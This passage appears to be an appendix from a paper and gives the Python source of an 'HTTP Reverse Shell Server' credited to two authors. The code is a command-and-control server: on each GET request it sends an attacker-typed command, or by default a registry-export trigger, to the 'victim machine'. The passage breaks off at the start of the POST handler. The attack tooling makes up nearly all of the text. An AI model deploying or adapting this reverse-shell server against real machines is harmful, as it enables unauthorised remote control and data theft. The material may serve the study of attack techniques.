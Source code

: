 # Appendix

## I. Server Code

``` python
#!/usr/bin/env python3

import socketserver
import http.server
import cgi
from colorama import Fore, Back, Style
import sys

PORT = 8080
"""
Authors: Jordan Sosnowski and John Osho
Date: November 1, 2019

HTTP Reverse Shell Server
"""

# if user provides command line param manual true
if len(sys.argv) == 2:
    MANUAL = True
else:
    MANUAL = False


class ReverseShellHandler(http.server.BaseHTTPRequestHandler):
    """
    Custom Class that inherits from the base http handler

    Defines GET and POST methods

    """

    def do_GET(self):
        """
        When the server is hit with a GET request
        it requires input from the attacker that will
        be sent back to the victims machine

        If manual, allow input from user
        If not manual, run registry export

        """

        if MANUAL:
            command = input(Fore.YELLOW + ">> ")
            print(Style.RESET_ALL)
        else:
            command = '!'

        # boilerplate http
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

        # send command to victim machine
        self.wfile.write(command.encode())

    def do_POST(self):
```